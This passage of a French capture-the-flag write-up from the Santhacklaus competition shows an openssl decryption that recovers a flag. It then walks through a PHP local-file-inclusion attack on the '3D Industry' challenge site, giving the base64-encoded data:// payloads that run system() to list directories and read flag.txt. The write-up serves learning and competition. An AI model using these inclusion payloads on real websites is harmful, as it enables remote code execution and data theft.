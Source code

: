 ```bash

# My_WiF3_d0eSn’T_h4v3_T0_kN0w_Th1s_Symm3tr1k_k3Y est sûrement la clé de encryptedMessage
$ openssl enc -aes-256-cbc -d -in ../encryptedMessage -out file.txt -k "My_WiF3_d0eSn’T_h4v3_T0_kN0w_Th1s_Symm3tr1k_k3Y"

$ cat file.txt
```

`IMTLD{Th1S_w4s_4_R3allY_w3aK_RS4_k3y}`

---
## 400 3D Industry (1/2)
---

> 3D Industry is a freshly launched startup which is specialized in 3D printing. The CEO has some doubts about the secured development of the website. Can you prove him that his doubts are well-founded ?  
> Lien: https://3d-industry.santhacklaus.xyz

* https://3d-industry.santhacklaus.xyz/index.php?file=services.php
* on remarque rapidement que la faille peut venir de l'url, peut-être une LFI ?
* après avoir testé des trucs basiques, rien d'utile
* par contre le module base64 fonctionne:

```bash
$ echo -n "<?php echo "yolo"; ?>" | base64
PD9waHAgZWNobyB5b2xvOyA/Pg==
```
* ce lien affiche bien yolo, le code est donc executé
https://3d-industry.santhacklaus.xyz/index.php?file=data://text/plain;base64,PD9waHAgZWNobyB5b2xvOyA/Pg==

```bash
# on fait un ls avec system()
$ echo -n "<?php echo system(\"ls -al\"); ?>" | base64
PD9waHAgZWNobyBzeXN0ZW0oImxzIC1hbCIpOyA/Pg==

# on remarque un dossier .hidden
# on navigue
$ echo -n "<?php echo system(\"ls -al .hidden/this/is/the/path/to/the/flag/\") ?>" | base64
PD9waHAgZWNobyBzeXN0ZW0oImxzIC1hbCAuaGlkZGVuL3RoaXMvaXMvdGhlL3BhdGgvdG8vdGhlL2ZsYWcvIikgPz4=

# on trouve un flag.txt
$ echo -n "<?php echo system(\"cat .hidden/this/is/the/path/to/the/flag/flag.txt\") ?>" | base64
https://3d-industry.santhacklaus.xyz/index.php?file=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oImNhdCAuaGlkZGVuL3RoaXMvaXMvdGhlL3BhdGgvdG8vdGhlL2ZsYWcvZmxhZy50eHQiKSA/Pg==
```

`IMTLD{B3w4r30fURL1nclud3}IMTLD{B3w4r30fURL1nclud3}` 

---
## 450 j.l.c.s.v.b.d
---
